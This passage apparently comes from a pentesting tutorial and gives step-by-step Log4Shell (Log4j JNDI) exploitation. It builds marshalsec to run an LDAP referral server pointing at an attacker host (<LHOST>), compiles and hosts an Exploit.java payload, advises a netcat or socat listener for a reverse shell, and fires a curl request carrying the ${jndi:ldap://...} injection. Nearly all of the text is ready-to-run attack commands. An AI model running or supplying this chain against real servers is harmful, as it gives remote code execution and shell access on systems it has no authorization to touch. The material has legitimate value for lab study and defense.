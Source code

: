 ### Exploitation

Run the command to build the **marshalsec** utility:

```bash
cd marshalsec
mvn clean package -DskipTests
```

With the marshalsec utility built, we can start an LDAP referral server to direct connections to our secondary HTTP server:

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<LHOST>/#Exploit"
```

Ultimately, the log4j vulnerability will execute arbitrary code that you craft within the Java programming language. We will use the **Exploit.java** payload created earlier in the requirements section and compile it:

```bash
javac Exploit.java -source 8 -target 8
```

With your payload created and compiled, you can now host it by spinning up a temporary HTTP server:

```bash
sudo python3 -m http.server 80
```

{% hint style="danger" %}
Don't forget to listen to **nc** or **socat** to receive the reverse shell.
{% endhint %}

Finally, all that remains to be done is to activate the exploit and fire our JNDI syntax. Now the port will be 1389 to refer to our LDAP server, also specifying our exploit. An example with a GET request through a parameter with the **curl** tool:

```bash
curl 'http://10.10.10.10:8000/?test=$\{jndi:ldap://<LHOST>:1389/Exploit\}'
```

{% hint style="danger" %}
You must escape out the **{ }** curly braces with a single backslash character, so those are not misrepresented in the curl command arguments.
{% endhint %}
